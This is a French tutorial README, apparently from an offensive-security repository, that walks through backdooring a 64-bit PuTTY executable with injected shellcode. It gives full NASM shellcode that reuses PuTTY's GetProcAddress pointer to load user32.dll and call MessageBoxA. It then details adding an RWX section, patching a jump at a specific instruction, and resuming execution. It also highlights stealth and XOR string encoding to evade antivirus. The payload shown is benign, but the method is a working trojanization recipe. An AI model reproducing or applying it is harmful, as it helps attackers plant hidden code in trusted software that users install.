






# Pack Shellcode in PE

L'objectif est d'expliquer comment packer un shellcode dans un PE.

Niveau Avance --> **[Aller à la Avance](details.md)**

## Getting started

Pour un maximum de difficulté, on va faire un **PE 64 bits**. Packer un **64 bits** sans tout casser, et on saura **tout packer**.  

Ce readme est **intermédiaire** pour comprendre en profondeur les choses.

Déja familié ? --> **[Aller à la Avance](details.md)**

### Prérequis

Packer un shellcode en **64 bits** demande une compréhension pointue des **fonctions et appels API Windows**.  
Donc, parallèlement, des **portes logiques** de l'informatique.  

Il va falloir **apprendre et surtout comprendre** les **registres** et la **stack**.  

Ce repo a **plus pour but de montrer ce qui est possible** plutôt que d'expliquer en profondeur les choses.  
Je vous invite vraiment à discuter avec **Cody de Sourcegraph**.

### Outils

- **HxD**
- **Putty**  
- **Pe-bear**  
- **Notepad / Éditeur de texte**  
- **NASM Compiler**  
- **x64dbg**  

---

### Get Started

On va décompiler Putty avec **x64dbg** pour comprendre comment il fonctionne.
Inclure notre shellcode dans un endroit stratégique du programme.

À force de décompilation, on va remarquer que Putty stocke dans un registre la fonction **[GetProcAddress](https://learn.microsoft.com/fr-fr/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)**.

C'est là que nos connaissances pointues des fonctions API vont servir. **GetProcAddress** permet de trouver n'importe quelle fonction ou variable dans une DLL. C'est le passe-partout un peu miraculeux.

On va se mâcher un travail titanesque et surtout, le PE hôte nous permet de rester beaucoup plus discret que dans notre première version, en limitant le nombre de fonctions à appeler.





De là, on va pouvoir calculer la base de `kernel32.dll`. Dans `kernel32.dll`, il existe la fonction `LoadLibraryA` qui permet de charger une DLL. À partir de là, c'est bien joué à tous, seule l'imagination est notre barrière.

Voici le shellcode que l'on va utiliser :


```
[BITS 64]

section .data
    title db "Test", 0
    message db "Click OK", 0
    user32_dll db "user32.dll", 0
    msgbox_func db "MessageBoxA", 0
    loadlib_func db "LoadLibraryA", 0
	
	saved_rax dq 0
    saved_rbx dq 0
    saved_rcx dq 0
    saved_rdx dq 0
    saved_rbp dq 0
    saved_rsp dq 0
    saved_rsi dq 0
    saved_rdi dq 0
    saved_r8  dq 0
    saved_r9  dq 0
    saved_r10 dq 0
    saved_r11 dq 0
    saved_r12 dq 0
    saved_r13 dq 0
    saved_r14 dq 0
    saved_r15 dq 0

section .text
global start
start:

	mov [rel saved_rax], rax
    mov [rel saved_rbx], rbx
    mov [rel saved_rcx], rcx
    mov [rel saved_rdx], rdx
    mov [rel saved_rbp], rbp
    mov [rel saved_rsp], rsp
    mov [rel saved_rsi], rsi
    mov [rel saved_rdi], rdi
    mov [rel saved_r8], r8
    mov [rel saved_r9], r9
    mov [rel saved_r10], r10
    mov [rel saved_r11], r11
    mov [rel saved_r12], r12
    mov [rel saved_r13], r13
    mov [rel saved_r14], r14
    mov [rel saved_r15], r15
    ; GetProcAddress est dans RSI/R12
	
	mov rax, rsi            ; Charger une adresse de retour de la stack (dans kernel32 normalement)
	sub rax, 0x1B200        ; Aligner sur une page mémoire (0x1000) calcule a partir de l'adress GetProcAddress
	
	mov r12, rax
	
    mov rcx, rax               
    lea rdx, [rel loadlib_func]
    call rsi                    ; Utiliser RSI pour GetProcAddress
    
    ; Maintenant LoadLibraryA est dans RAX
    mov r13, rax                ; Sauver LoadLibraryA
    lea rcx, [rel user32_dll]   ; Paramètre pour LoadLibraryA
    call r13                    ; Charger user32.dll
    
    mov rcx, rax                ; Handle user32.dll
    lea rdx, [rel msgbox_func]
    call rsi                    ; GetProcAddress pour MessageBoxA
	
	
	push rbp                    ; Sauvegarder le frame pointer
    mov rbp, rsp               ; Nouveau frame
    and rsp, -16               ; Aligner RSP sur 16 bytes
    
    sub rsp, 32
    xor rcx, rcx
    lea rdx, [rel message]
    lea r8, [rel title]
    xor r9, r9
    call rax                    ; MessageBoxA
    mov rsp, rbp               ; Restaurer la pile
    pop rbp
	
	
	mov rax, [rel saved_rax]
    mov rbx, [rel saved_rbx]
    mov rcx, [rel saved_rcx]
    mov rdx, [rel saved_rdx]
    mov rbp, [rel saved_rbp]
    mov rsp, [rel saved_rsp]
    mov rsi, [rel saved_rsi]
    mov rdi, [rel saved_rdi]
    mov r8,  [rel saved_r8]
    mov r9,  [rel saved_r9]
    mov r10, [rel saved_r10]
    mov r11, [rel saved_r11]
    mov r12, [rel saved_r12]
    mov r13, [rel saved_r13]
    mov r14, [rel saved_r14]
    mov r15, [rel saved_r15]

	db 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00  ;
	db 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00  ;

```


## Compilation avec NASM

On va compiler avec **NASM** :  

```
nasm -f bin test.asm -o shellcode.bin
```

Notez que celui-ci est compilé en **BIN** et non pas en **x64** pour éviter toutes les définitions de variables.  
Maintenant, on a un shellcode qui va ouvrir une **MessageBoxA** en format **binaire**.  
Mais là, on ne peut rien en faire.  

---

## Backdoorer le programme

On va enfin **backdoorer** le programme.  

1. Ouvrir **PE-BEAR** et charger **Putty** à l’intérieur.  
2. **Clic droit** dans **Sections** → **Add section**  
3. Choisir un nom, ici `.newcode`  
4. Choisir le **shellcode.bin** que l'on vient de créer  
5. Bien cocher :  
   - ✅ **Read**  
   - ✅ **Execute**  
   - ✅ **Write**  
6. Les tailles **raw** sont directement définies grâce à **PE-BEAR**.  
7. 


En fonction de l'endroit où on veut l'insérer, on va devoir calculer nos jumps dynamiquement grâce au script.

Ici, on exécutera le shellcode après que l'utilisateur ait cliqué sur le bouton **Open** pour ouvrir une connexion depuis Putty.

Vu plus haut, le registre `RSI` est utilisé pour stocker **GetProcAddress**. On va copier l'instruction qui sera remplacée par le jump.


Ce sera cette instruction : `488D8F84000000` soit `LEA RCX, [RDI + 0X84]`. Je la remplace avec un jump vers mon shellcode, calculé grâce au script.

Ici : `E9 27 8A 19 00`, donc là, on jump sur notre shellcode, il va s'exécuter.



À la fin, il faut de nouveau jump sur +1 l'instruction que l'on a remplacée (Offset `55DB` sur le dernier screen).



Mais avant ça, il faut replacer l'instruction qui a été remplacée par le jump à la fin de notre shellcode, pour reprendre l'exécution normale.
Dans `.newcode`, j’ai fait exprès de rajouter des null bytes à la fin pour garder la place au jump et aux instructions remplacées.

Enfin, il faut modifier le jump final vers l'instruction modifiée.

Juste en dessous de l'ajout que l'on vient de faire, on va rejump en calculant avec le script. Il faut noter qu’on ne rejump pas sur notre instruction modifiée mais bien sur l'instruction suivante, sinon on rebouclerait sur notre premier jump, ce qui ferait tourner notre shellcode en boucle.

Donc le jump ressemblera à ça :




### Et voilà, c'est fini !

Notre **PE** est **backdooré**.  

En résumé, on a :  

- **Jump** sur notre shellcode  
- **Chargement** de la **GetProcAddress** trouvé dans le registre `RSI`
- **Appel** de la fonction **`LoadLibraryA`** 
- **Recherche** de la **DLL `user32.dll`**  
- **Recherche** de la fonction **`MessageBoxA`**  
- **Appel** de `MessageBoxA`  
- **Attente** de la fermeture de la MessageBox  
- **Jump** sur **la suite du programme** de Putty  


## Remarques importantes

Dans la première version on a :

- Ecriture en dur et clair de fonction a chercher.
- Recherche manuelle des adresses importantes (PEB, ModuleList) 
- Recherche manuelle des fonctions grace aux noms ecrit en dur
- Boucle pour comparé chaque octet

Dans cette version on a :

- Grace a notre décompilation on trouve direct les adresses importantes (GetProcAdress)
- Un machage considérable de la recherche des fonctions grace aux noms ecrit en dur
- Pas de boucle pour comparer chaque octet
- Shellcode compact

Non seulement on gagne en **taille** mais aussi en **discretion**. C'est putty qui a trouvé pour nous GetProcAdress, aucun comportement suspect ou malveillant c'est le programme original qui fait tout.


### Autre

Il est possible de "cacher" les ecriture en dur dans la mémoire ce qui est souvent detecter par les AV.

Un simple XOR sur les chianes et un moyen de les décoder est disponible. Voir le shellcode, [messagebox_XOR_0x41.asm](./shellcode/demonstration/simple_messagebox_XOR.asm).

---

## Résultat  



---


## Résultat AV


